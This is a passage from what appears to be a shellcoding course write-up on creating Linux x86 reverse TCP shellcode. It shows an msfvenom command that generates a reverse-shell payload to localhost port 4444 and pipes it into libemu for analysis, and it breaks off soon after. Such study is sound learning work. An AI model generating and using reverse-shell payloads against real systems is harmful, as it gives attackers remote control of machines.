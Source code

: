 ## Assignment 2

* Create a Shell_Reverse_TCP shellcode
  * Reverse connects to a configured IP and Port
  * Execs shell on successfull connection
* IP and Port should be easily configurable

## Execution

The first thing the I wanted to do was to analyze the internals of an already implemented bind shell with the goal of understanding the syscalls involved. For this task Libemu was used; let's generate the shellcode and pipe it into sctest.

```
> msfvenom -p  linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 | sctest -vvv -G rev_shell_flow.dot -Ss 10000
> dot -Tpng rev_shell_flow.dot -o rev_shell_flow.png
```

<p align="center">